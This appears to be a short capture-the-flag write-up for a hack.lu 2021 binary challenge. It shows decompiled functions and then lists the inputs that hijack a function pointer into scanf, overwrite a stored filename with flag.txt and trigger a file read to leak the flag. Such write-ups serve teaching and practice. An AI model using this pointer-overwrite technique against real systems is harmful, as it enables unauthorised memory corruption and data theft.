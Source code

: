 hack.lu21

> NO PIE
> 

`f1056` edit function poiter of `.data: 22050` And this fucntion is called in `f4919` 

```cpp
// f4919 default
mul_2_param(int a1, int a2){
  currStonk += a2 * a1;
  return a2 * a1;
}
// f16 change method calc
int f16(){
  if ( (char *)modified_by_f1056 == (char *)mul_2_param )
    f1056(1056, sum_2_param, 0, 0);
  else
    f1056(1056, mul_2_param, 0, 0);
  return v0;
}
// f32
int f32_printStonk()
{
  printf("Your current stonks are roughly: %d\n", currStonk);
  return v0;
}
```

`f48` read from stonks.txt file

```cpp
// f39321
int f39321(int a1, int a2)
{
  int v2; // r3
  int (*v4)(); // [sp+14h] [bp-8h]

  v4 = 0;
  if ( a2 )
  {
    if ( a2 == 1 )
      v4 = mul_2_param;
    printf("s3cr3t debug %d (TODO remove in production)\n", v4);
  }
  else
    printf("s3cr3t debug %d (TODO remove in production)\n", &fileName);
  return v2;
}
```

We use `plt.scanf`, so any mem can be rewritten

send 1056 66928 0 0 to rewrite the function pointer to scanf function (66928 - plt.scanf)

send 4919 70140 139352 0 to call scanf function, the two parameters are the address of %s and filename (139352-addr of filename, 70140-%s)

send flag.txt, rewrite filename to flag .txt

send 48 0 0 0 execute the read file operation, you can read the flag.txt file
